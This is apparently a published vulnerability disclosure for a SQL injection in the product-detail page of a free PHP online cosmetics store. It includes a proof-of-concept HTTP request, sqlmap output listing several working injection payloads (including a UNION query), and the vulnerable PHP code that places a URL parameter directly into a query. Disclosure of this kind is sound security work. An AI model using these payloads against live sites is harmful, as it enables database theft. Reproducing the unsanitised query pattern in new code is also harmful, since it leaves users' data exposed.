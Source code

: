 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 -SQL Injection

The id parameter on detail product on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> view_product.php


### Description:
> The id parameter on detail product on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /cbpos/?p=view_product&id=ID_VULN
2. Copy request to a txt file and run with SQLmap
Request
```
GET /cbpos/?p=view_product&id=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/cbpos/
Connection: close
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

3. Result
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND 3108=3108 AND 'cryv'='cryv

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 4233 FROM(SELECT COUNT(*),CONCAT(0x71706a6b71,(SELECT (ELT(4233=4233,1))),0x7178766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'czMR'='czMR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 4664 FROM (SELECT(SLEEP(5)))fagQ) AND 'ueiB'='ueiB

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: p=view_product&id=-3841' UNION ALL SELECT CONCAT(0x71706a6b71,0x62564d4b78634f6d63565766636a536f6a635a766d735764704f6c65737a6b4c664e61636d4e6b70,0x7178766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[13:06:04] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.54, PHP 8.2.0
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
4. CODE
```
<?php 
 $products = $conn->query("SELECT p.*,b.name as bname,c.category FROM `products` p inner join brands b on p.brand_id = b.id inner join categories c on p.category_id = c.id where md5(p.id) = '{$_GET['id']}' ");
 if($products->num_rows > 0){
     foreach($products->fetch_assoc() as $k => $v){
         $$k= stripslashes($v);
     }
    $upload_path = base_app.'/uploads/product_'.$id;
    $img = "";
    if(is_dir($upload_path)){
        $fileO = scandir($upload_path);
        if(isset($fileO[2]))
            $img = "uploads/product_".$id."/".$fileO[2];
        // var_dump($fileO);
    }
    $inventory = $conn->query("SELECT * FROM inventory where product_id = ".$id." order by variant asc");
    $inv = array();
    while($ir = $inventory->fetch_assoc()){
        $ir['price'] = format_num($ir['price']);
        $ir['stock'] = $ir['quantity'];
        $sold = $conn->query("SELECT sum(quantity) FROM `order_list` where inventory_id = '{$ir['id']}' and order_id in (SELECT order_id from `sales`)")->fetch_array()[0];
        $sold = $sold > 0 ? $sold : 0;
        $ir['stock'] = $ir['stock'] - $sold;
        $inv[] = $ir;
    }
 }
 
?>
```

5. Successful exploit screenshots are below (without id parameter)
![Example Image](https://drive.google.com/uc?id=1oHt3zLrp6Xa183tPQSaNGxhhWv1mcdrL)


Video POC here:
[POC SQLi](https://drive.google.com/file/d/1IR-KPtRaTDKpOgUaMxBB1l_j_bfzZtyL/view?usp=sharing)

### Impact:
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
